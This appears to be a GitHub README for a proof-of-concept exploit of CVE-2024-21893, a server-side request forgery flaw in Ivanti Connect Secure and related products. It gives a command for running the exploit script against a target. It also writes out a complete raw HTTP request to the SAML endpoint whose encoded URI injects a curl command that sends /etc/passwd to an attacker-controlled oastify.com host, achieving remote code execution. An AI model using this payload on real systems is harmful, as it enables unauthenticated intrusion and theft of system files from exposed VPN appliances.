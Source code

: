 CVE-2024-21893 is  server-side request forgery vulnerability in the SAML component of Ivanti Connect Secure (9.x, 22.x) and Ivanti Policy Secure (9.x, 22.x) and Ivanti Neurons for ZTA allows an attacker to access certain restricted resources without authentication.

run `python CVE-2024-21893.py -u target.com -a http://xxxxxxxxx.oastify.com`

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/bec33c87-a6c7-4db3-aedc-5749e994c917)

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/c38f93de-379b-4b76-8326-e66c019dfa2a)

### RCE

```
POST /dana-ws/saml20.ws HTTP/1.1
Host: target.com
Accept: */*
Content-Type: text/xml
Content-Length: 934
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<ds:Signature
		xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
			<ds:SignedInfo>
				<ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
				<ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1"/>
			</ds:SignedInfo>
			<ds:SignatureValue>qwerty</ds:SignatureValue>
			<ds:KeyInfo xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.w3.org/2000/09/xmldsig" xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
				<ds:RetrievalMethod URI="http://127.0.0.1:8090/api/v1/license/keys-status/%3bcurl%20-X%20POST%20-d%20%40%2fetc%2fpasswd%20http%3a%2f%2f8oxxxxxxxxxxxxx.oastify.com%3b"/>
				<ds:X509Data/>
			</ds:KeyInfo>
			<ds:Object></ds:Object>
		</ds:Signature>
	</soap:Body>
</soap:Envelope>

```

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/e7d7180a-b158-4437-9dd9-97d4c55539c9)


Reference : https://attackerkb.com/topics/FGlK1TVnB2/cve-2024-21893/rapid7-analysis

